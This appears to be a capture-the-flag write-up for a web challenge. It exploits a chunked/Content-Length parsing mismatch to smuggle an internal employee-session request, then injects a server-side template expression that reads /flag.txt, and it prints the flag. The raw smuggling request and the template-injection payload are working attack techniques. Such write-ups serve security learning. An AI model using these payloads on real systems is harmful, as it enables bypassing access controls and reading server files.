




## Recon

The home page has this hint:

```text
employee edge: transfer parser mismatch reported
briefing template dry-run exposed after employee gate
```

Accessing `/employee` returns `403`, but the response shows that the public `/employee` endpoint receives a raw HTTP request in the body and then forwards it to the internal service.


There is a mismatch here in how the body is parsed. The edge reads chunked data, so it stops when it sees `0`, while the bridge still reads based on `Content-Length`; the remaining data becomes the next request.

Injecting `GET /employee/session` with `X-Employee-Gate: internal` opens an employee session.

## Bypass employee gate


```http
POST /employee HTTP/2
Host: ganzir-102d71c23ef6.inst.omnictf.com
Content-Type: text/plain
Content-Length: 176

POST /employee HTTP/1.1
Host: site19.local
Content-Length: 5
Transfer-Encoding: chunked

0

GET /employee/session HTTP/1.1
Host: site19.local
X-Employee-Gate: internal

```

The response returns `302` and sets the employee cookies:



Copy these cookies and send the request again:

```http
GET /employee HTTP/2
Host: ganzir-102d71c23ef6.inst.omnictf.com
Cookie: site19_employee_gate=...; site19_jwt=...; site19_session=...

```



Open each route until reaching `Templates`:

```http
GET /briefing-template HTTP/2
```




```http
POST /briefing-template HTTP/2
Host: ganzir-102d71c23ef6.inst.omnictf.com
Cookie: site19_employee_gate=...; site19_jwt=...; site19_session=...
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

template={{ read_file('/flag.txt') }}

```



## Flag

```text
CTF{ganzir_was_already_in_the_fire_plan}
```
